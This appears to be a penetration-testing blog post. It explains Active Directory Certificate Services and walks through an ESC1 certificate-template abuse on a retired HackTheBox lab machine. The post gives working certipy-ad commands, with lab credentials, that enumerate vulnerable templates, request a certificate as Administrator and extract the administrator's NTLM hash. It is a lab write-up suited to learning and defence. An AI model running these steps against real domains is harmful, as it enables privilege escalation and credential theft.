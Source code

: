 ```yaml
---
title: Abusing Active Directory Certificate Services
published: 2025-06-20
description: 'Learn about the significance active directory certificates in pentesting, abusing ADCS and ESC1 attack.'
image: ''
tags: ['adcs', 'ESC1']
category: 'active-directory'
draft: false
---
```

## What is Active Directory Certificate Services (ADCS) ?

Active Directory Certificate Services (AD CS) is a Windows Server role responsible for issuing, managing and validating digital certificates within a public key infrastructure (PKI). Active Directory Certificate Services provides a secure and scalable platform for managing digital identities, ensuring the confidentiality, integrity and availability of information within an organization.


### Main components of Active Directory Certificate Services:

- **Certificate Authority (CA):** Issues and manages digital certificates.

- **Certificate Templates:** Define the properties and usage of certificates.

- **Certificate Authority Web Enrollment:** Allows users and computers to request certificates through a web-based interface.

- **Public Key Infrastructure:** PKI manages certificates and public key encryption.

- **Certificate Signing Request:** CSR is a message send to CA to request a signed certificate

- **Extended Key Usage:** Extended Key Usage are object indentifiers that define how a generated certificate may be used.

## Certificate Templates

Since Active Directory Certificate Services is such a critical service, it usually runs on only a few selected domain controllers, normal users can't interact with the AD CS directly. Some organizations that are too large have administrator's that create and distribute each certificate manually, distributing certificates manually to each user is not feasible in larger organizations. This is where certificate templates come into action, AD CS administrators can create several templates that can allow users with the relevant permission to request a certificate themselves. These certificate templates have specific parameters that define which user can request the certificate and what permissions are required.

![CSR](./images/adcs-abuse/csr-1.png)
Credit: SpecterOps

## What vulnerabilities can arise with Certificate Templates ?

This vulnerability was researched and discovered by [SpecterOps](https://specterops.io/) and later disclosed in their [whitepaper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) in 2021. This whitepaper highlights how specific combination of parameters in certificate templates can be abused and lead to privilege escalation to domain administrator and persistent access for years.

## Format of a Certificate Template

A certificate template consists of various parameters, a misconfigured combination of these parameters leads to vulnerabilities in certificate templates. Some of the well known vulnerabilities in certificate templates are: ESC1, ESC4, ESC7, ESC9, ESC15 and so on.

Here is what a certificate vulnerable to ESC1 looks like:

![ESC1 Vulnerable Certificate](./images/adcs-abuse/esc1.png)

The template is vulnerable to ESC1 because it has: Enrollee supplies subject and template allows client authentication parameters enabled. 
Other ESC(2-16) vulnerabilities have different combination of parameters in templates that make them vulnerable.

## Exploiting AD CS Templates

For this blog, i will be using a retired machine from HackTheBox: [Escape](https://app.hackthebox.com/machines/531)

The first step to determining vulnerable templates, is using our credentials to collect data for bloodhound and figuring out whether our compromised user account has access to the ADCS or not.

![bloodhound](./images/adcs-abuse/bloohound.png)

Here in bloodhound we can see that our compromised user *Ryan Cooper* is part of the **CERTIFICATE SERVICE DCOM ACCESS** group. Which seems to be the ADCS group.

This can also be identified in powershell by running:

```
whoami /all
```

![group membership](./images/adcs-abuse/priv1.png)

Now that we know that our user is potentially part of the ADCS group, we can use [certipy-ad](https://github.com/ly4k/Certipy) - a very powerful tool for attacking and enumerating AD CS. It supports identification and exploitation of ESC1-ESC16 vulnerabilities.

Certipy-ad can be installed on kali linux using apt: `sudo apt-get install certipy-ad`

> Note: certipy-ad goes to various updated often, so the commands and switches/flags I am using in this blog works as of 21-06-2025, it may or may not work in future. So please reference the official documentation for certipy-ad on their github repository.

1. **Identifying vulnerable templates:**

We can use certipy-ad to identify vulnerable templates using the credential for the user we have access to, certipy-ad accepts both password and ntlm hash for authentication.

```
certipy-ad find -u "ryan.cooper@sequel.htb" -p "NuclearMosquito3" -dc-ip 10.10.11.202 -vulnerable -enabled -stdout
```

Flags:
- find: certipy-ad option for enabling certificate enumeration
- -u: username
- -p: password
- -dc-ip: domain controller ip
- -vulnerable: find vulnerable templates on the dc
- -enabled: search for enabled/working templates only
- -stdout: standard output, output the result of terminal instead to writing them to files which certipy-ad does by default (it creates a mess).

We get the result and one of the templates is vulnerable to ESC1 because it has 2 particular parameters: *Enrollee supplies subject* and template allows *client authentication*

![vuln template](./images/adcs-abuse/vuln_template.png)

Now that we know the target template and its details, we can abuse it to issue administrator user's certificate and get access to target system as admin. This is also done using certipy-ad

```
certipy-ad req -u 'ryan.cooper@sequel.htb' \
-p 'NuclearMosquito3' \
-dc-ip 10.10.11.202 \
-target 'sequel.htb' \
-ca 'sequel-DC-CA' -template 'UserAuthentication' \
-upn 'Administrator@sequel.htb'
```

Flag:
Other than the flags i discussed above here are what the other flags are for,
- req: certipy-ad option requesting certificate
- -target: specify target domain
- -ca: Name of the certificate authority, can be found on the result of vulnerable template enumeration we did previously
- -upn: User Principal Name of target user, i.e. Administrator

This will request a certificate for administrator user from the AD CS and save it as a **.pfx** (personal information exchange file) file on our system.
![admin certificate dumped](./images/adcs-abuse/admin_cert.png)

Now we can use certipy-ad to use the administrator.pfx file and dump the ntlm hash for administrator user:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

Flags:
- auth: certipy-ad option for authentication
- -pfx: specifying the pfx file to use

And we get the administrator ntlm hash that we can use with psexec, evil-winrm, etc to authenticate and access the target system as administrator.

![admin hash](./images/adcs-abuse/admin_hash.png)

## Conclusion
In this blog we discussed about Active Directory Certificate Services, its components, working of certificate templates SpecterOps discovery and research of certificate template abuse. Then we discussed template vulnerabilities (ESC), how we identify esc1 vulnerability using certipy-ad, how to request administrator's certificate using certipy-ad and then dumping the NTLM hash of the administrator, which can then be used for authentication via various protocols like winrm, smb, etc.
